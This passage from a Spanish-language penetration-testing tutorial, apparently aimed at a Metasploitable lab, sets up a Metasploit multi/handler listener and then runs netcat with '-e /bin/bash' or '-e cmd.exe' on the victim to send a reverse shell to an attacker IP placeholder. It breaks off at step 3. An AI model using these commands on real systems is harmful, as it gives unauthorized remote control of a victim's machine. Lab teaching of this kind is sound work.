 2. Usa el módulo `multi/handler`:

```bash
use exploit/multi/handler
```

3. Configura el **payload** para Netcat o una shell inversa:

```bash
set payload cmd/unix/reverse_netcat
```

O si usas un shell de Windows:

```bash
set payload windows/shell/reverse_tcp
```

4. Define la IP del atacante (tu Kali):

```bash
set LHOST <TU_IP_LOCAL>
```

5. Define el puerto que vas a escuchar:

```bash
set LPORT 4444
```

6. Inicia el listener:

```bash
exploit
```

---

#### 🔹 Paso 2: Ejecutar Netcat en la víctima

En la máquina víctima (puede ser una VM como Metasploitable), ejecutas:

```bash
nc <IP_ATACANTE> 4444 -e /bin/bash
```

Esto:

- Usa `nc` para conectarse al atacante
- El `-e /bin/bash` **envía una shell bash** al atacante

🔐 En Windows sería algo como:

```powershell
nc.exe <IP_ATACANTE> 4444 -e cmd.exe
```

---

#### 🔹 Paso 3: Ver la shell en Metasploit

Una vez que la víctima ejecuta el comando Netcat, verás en Metasploit:
